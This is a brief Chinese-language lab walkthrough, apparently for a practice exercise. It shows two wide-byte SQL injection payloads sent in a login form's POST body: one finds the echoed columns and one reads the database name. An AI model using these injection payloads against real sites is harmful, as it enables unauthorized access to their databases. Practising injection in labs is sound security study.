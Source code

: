 直接burp抓包



先测回显列，

两列

```
uname=admin%df' union select 1,2#&passwd=admin&submit=Submit
```



爆库

```
uname=admin%df' union select 1,database()#&passwd=admin&submit=Submit
```

 

后续步骤不再赘述...
